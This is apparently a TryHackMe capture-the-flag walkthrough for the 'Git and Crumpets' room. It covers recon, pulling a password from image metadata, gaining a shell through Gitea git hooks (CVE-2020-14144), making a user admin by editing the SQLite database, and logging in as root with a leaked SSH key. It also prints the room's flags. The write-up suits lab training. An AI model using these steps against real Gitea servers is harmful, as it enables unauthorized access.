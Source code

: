 # Git and Crumpets 


- Room link:  
  https://tryhackme.com/room/gitandcrumpets
  
![image](https://user-images.githubusercontent.com/5285547/124516978-c903a380-ddda-11eb-9889-003881db1c7b.png)


## Nmap 

Let's see what we are working with here. 

```
Nmap scan report for git.git-and-crumpets.thm (10.10.255.148)
Host is up (0.022s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
9090/tcp closed zeus-admin
```
I see ```git.git-and-crumpets.thm``` and ```git-and-crumpets.thm``` in the nmap output.  
Let's add them to our ```/etc/hosts``` file

```
sudo nano /etc/hosts
```

## Port 80

Visiting the main website page, instantly redirects us to a Rick Astley video (we do love our Rick).
After having added the new hosts to the host file, I can now see the real page... 

![image](https://user-images.githubusercontent.com/5285547/124517211-55ae6180-dddb-11eb-8d35-0cb559d7a423.png)

thm{6320228dd9e315f283b75887240dc6a1}

Let's make an account and have a look around the system.  
After making the new account login. When you get there you will notice a few repos in ```Explore``` tab. 

![image](https://user-images.githubusercontent.com/5285547/124517322-9c9c5700-dddb-11eb-9f7c-4eb5f1302aed.png)

Checking the repo and its commits, we can see 5 changes. Let's review them. 

![image](https://user-images.githubusercontent.com/5285547/124517368-b50c7180-dddb-11eb-8987-c4513be276d0.png)

Now knowing the users password is in the image, lets get it. 

```
curl http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -s | strings -n 8 | head
```
Result
```
8tEXtDescription
My 'Password' should be easy enough to guess
E7V:W*555}
```
Next we need to find his email, luckily its on the main profile for the user. 

![image](https://user-images.githubusercontent.com/5285547/124517524-13395480-dddc-11eb-8dc6-e45bb81effd2.png)

## User

Lets login as the new user, then check if he has nay higher privileges. 

![image](https://user-images.githubusercontent.com/5285547/124517654-66aba280-dddc-11eb-8537-2747bfff88f3.png)

Yes, Githooks are available. This will allow use to execute code on a successful change to the repo.

More info here: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

Edit the page above with a bash shell to your machine. 

![image](https://user-images.githubusercontent.com/5285547/124517772-bbe7b400-dddc-11eb-95fc-148134506ffe.png)

Then update the hook script to save it.
Now edit the readme.md file with any change to get our hook to fire and get a shell. 

![image](https://user-images.githubusercontent.com/5285547/124518309-fef65700-dddd-11eb-9e90-3fcd32af987f.png)

We can grab the flag in the home folder. (/home/git)  
Its abse64 encoded, so decode it. If you forget ...

```
#thm{fd7ab9ffd409064f257cd70cf3d6aa16}
echo dGhte2ZYzZDZhYTE2fQ=|base64 -d 
```

## Root

Let's now look around the system for any gitea related files (database, config etc)

```
find / -type f 2>/dev/null | grep "gitea" | grep "db"
```
```
/var/lib/gitea/data/gitea.db      << Looks like what we need!! 

/var/lib/gitea/data/gitea-repositories/root/backup.git/objects/05/2db66e7afb93b756a8fd79b1d794299e40a684
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git/objects/7a/8cad890480058860f42788db193afa38182cb6
/var/lib/gitea/data/queues/push_update/000002.ldb
/var/lib/gitea/data/queues/notification-service/000002.ldb
/var/lib/gitea/data/queues/repo_stats_update/000002.ldb
/var/lib/gitea/data/queues/pr_patch_checker/000002.ldb
```
Now change to the directory. Running ```file /var/lib/gitea/data/gitea.db```  
Shows us this is a SQlite3 database. 

![image](https://user-images.githubusercontent.com/5285547/124519198-82b14300-dde0-11eb-839b-2be44023705f.png)

```
sqlite3 gitea.db
```

- SQlite3 Basic Cheatsheet

```
sqlite> .database              #List database
slqite> .tables                #List tables
sqlite> .scheme user           #List schema of the table users
sqlite> .mode column           #Set mode to column
sqlite> .mode tab
sqlite> .mode line             #Set mode to line   - my preffered here. 
sqlite> .width 10 25 3 6 15    #Set width of column
sqlite> .show                  #Show column settings
```

After listing the tables and seeing a user table, lets get the data to some passwords hopefully. 
Trying the crack the passwords was taking a really long time, so I opted to edit the user we had access to. 
Giving him admin access via the sqlite database. 

```
UPDATE user SET is_admin=1 WHERE id=3;
```

Going back to the application we now see a new repo. 

![image](https://user-images.githubusercontent.com/5285547/124520096-47fcda00-dde3-11eb-95e8-07978deb579b.png)

Looking at the brances, we can see a new file ```dotfiles```

![image](https://user-images.githubusercontent.com/5285547/124520136-6fec3d80-dde3-11eb-9334-a483faa55567.png)

With old commits, one in particular looks very interesting. 

![image](https://user-images.githubusercontent.com/5285547/124520169-87c3c180-dde3-11eb-8c29-898af75e9768.png)

An ssh key!!

![image](https://user-images.githubusercontent.com/5285547/124520205-a1fd9f80-dde3-11eb-9870-887b41eec23e.png)

Copying the contents to a new file and making it executable. Then using the "password" from the file name. 
We can now access SSH and get the last flag. 

```
nano id_rsa   #copy contents in
chmod 600 id_rsa
ssh root@git-and-crumpets -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/124520332-133d5280-dde4-11eb-9faa-8a83df540199.png)

Now we got the last flag and owned the box! 



